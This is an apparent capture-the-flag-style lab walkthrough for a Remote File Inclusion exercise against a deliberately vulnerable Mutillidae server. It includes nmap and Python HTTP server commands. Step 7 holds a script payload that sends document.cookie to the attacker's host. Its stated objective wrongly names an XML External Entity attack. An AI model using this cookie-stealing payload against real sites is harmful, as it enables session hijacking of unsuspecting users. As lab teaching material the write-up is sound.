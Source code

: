 ﻿![](Aspose.Words.e11a2d87-f09f-4460-b06d-94fb5bac4d6e.001.png)

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Remote File Inclusion </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=2124>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">OWASP Top 10 : Broken Access Control </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Objective:** Perform XML External Entity attack. 

**Solution:**  

**Step 1:** Start a terminal and check the IP address of the host. **Command:** ip addr 

![](Aspose.Words.e11a2d87-f09f-4460-b06d-94fb5bac4d6e.003.jpeg)

**Step 2:** Run Nmap scan on the target IP to find open ports. ![ref2]**Note:** The target IP will be 192.123.219.3 

**Command:** nmap 192.123.219.3 

![](Aspose.Words.e11a2d87-f09f-4460-b06d-94fb5bac4d6e.005.png)

Port 80 and Port 3306 are open 

**Step 3:** Start firefox and navigate to the target IP. 

![](Aspose.Words.e11a2d87-f09f-4460-b06d-94fb5bac4d6e.006.jpeg)

An instance of Mutillidae is running at port 80 of the target. 

**Step 4:** Navigate to Remote File Inclusion page located under Insecure Direct Object References in Broken Access Control of OWASP 2017 ![ref2]

![](Aspose.Words.e11a2d87-f09f-4460-b06d-94fb5bac4d6e.007.jpeg)

![](Aspose.Words.e11a2d87-f09f-4460-b06d-94fb5bac4d6e.008.jpeg)

**Step 5:** Start a Simple HTTP Server on port 80 ![ref2]

**Command:** python -m SimpleHTTPServer 80 

![](Aspose.Words.e11a2d87-f09f-4460-b06d-94fb5bac4d6e.009.png)

**Step 6:** Check for the Remote File Inclusion Vulnerability by modifying the page parameter with the URL of the attacker’s machine. 

These are the root (/) directories/files of the attacker machine. ![](Aspose.Words.e11a2d87-f09f-4460-b06d-94fb5bac4d6e.010.jpeg)

**Step 7:** Create a file to retrieve the cookies and save it as getcookie.txt **Content:** 

<img id=”img” src=””> ![ref2]

<script> document.getElementById(“img”).src=”[http://192.123.219.2/?cookie=”+document.cookie](http://192.123.219.2/?cookie=%E2%80%9D+document.cookie) </script> 


**Step 8:** Open the getcookie.txt from the target server. ![](Aspose.Words.e11a2d87-f09f-4460-b06d-94fb5bac4d6e.011.jpeg)![ref1]

![](Aspose.Words.e11a2d87-f09f-4460-b06d-94fb5bac4d6e.012.jpeg)

**Step 9:** Check the python HTTP server terminal. 

![](Aspose.Words.e11a2d87-f09f-4460-b06d-94fb5bac4d6e.013.jpeg)

The Remote File Inclusion attack is successful. ![ref2]

![ref1]

**References: ![ref2]**

1\. Mutillidae (<https://sourceforge.net/projects/mutillidae/>) 

[ref1]: Aspose.Words.e11a2d87-f09f-4460-b06d-94fb5bac4d6e.002.png
[ref2]: Aspose.Words.e11a2d87-f09f-4460-b06d-94fb5bac4d6e.004.png
